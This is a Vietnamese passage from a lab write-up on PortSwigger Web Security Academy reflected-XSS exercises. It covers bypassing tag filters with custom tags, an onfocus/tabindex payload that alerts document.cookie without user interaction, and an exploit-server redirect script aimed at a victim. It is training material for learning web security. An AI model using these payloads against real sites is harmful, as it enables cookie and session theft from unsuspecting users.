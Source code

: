 >Set payload này vào exploit server và gửi cho nạn nhân: ![image](https://hackmd.io/_uploads/ByY_QMm70.png)

>Gửi cho victim và hàm print được gọi thành công: ![image](https://hackmd.io/_uploads/SJxnXfQ7C.png)

>Hoàn thành bài lab:![image](https://hackmd.io/_uploads/By9nXGQmA.png)

# **12. Lab: Reflected XSS into HTML context with all tags blocked except custom ones**

> Lab chặn hết tất cả các thẻ HTML ngoại trừ các thẻ tùy chỉnh. Hoàn thành bài lab bằng cách thành công XSS và lấy được `document.cookie`: 
![image](https://hackmd.io/_uploads/BJMObEQmA.png)

>Như bài trên, ta tiến hành Intruder để tìm ra các tag không bị chặn: ![image](https://hackmd.io/_uploads/BJFrIV7QC.png)

>Thấy rằng có tag `<img2>` có thể sử dụng được. Dùng payload: 
    ` <img2 onclick=alert(document.cookie)>123 ` 
![image](https://hackmd.io/_uploads/HJ9jPV7QC.png)

>Khi click vào dòng `123`, ta thấy alert thành công. Tuy nhiên, để tấn công mà không cần tương tác từ người dùng, ta search với payload sau:
`<img2 id=a onfocus=alert(document.cookie) tabindex=1>#a`
Payload này sẽ khiến nạn nhân khi load trang sẽ tự động tab đến tag có `id=a` đầu tiên (do `tabindex=1`) và từ đó trigger `onfocus` , từ đó `alert` thành công: ![image](https://hackmd.io/_uploads/H1Qj_4mQC.png)

>Lúc này, tạo 1 đoạn script chuyển trang đến URL chứa payload trên và lưu vào exploit server. 
```
<script>
location = 'https://0a6200eb047f5f6380964e9400e80098.web-security-academy.net/?search=%3Cimg2+id%3Da+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#a';
</script>
```
![image](https://hackmd.io/_uploads/Bki12Nm7C.png)

>Gửi nó cho victim và hoàn thành được bài lab: ![image](https://hackmd.io/_uploads/H1vz3VQQC.png)

# **13. Lab: Reflected XSS with some SVG markup allowed**
    
>Lab chứa lỗ hổng reflected XSS. Trang web đã block hầu hết các tags, nhưng quên 1 số tag SVG và events. Để giải quyết bài lab, thực hiện XSS gọi thành công hàm alert()
![image](https://hackmd.io/_uploads/B1VLErmXA.png)

>Thử tag `<script>` thì đã bị chặn: ![image](https://hackmd.io/_uploads/B1hbUBmQC.png)

>Lúc này, ta sẽ brute-force xem tag nào có thể sử dụng được: 
>![image](https://hackmd.io/_uploads/BkMaPSXQR.png)
                                         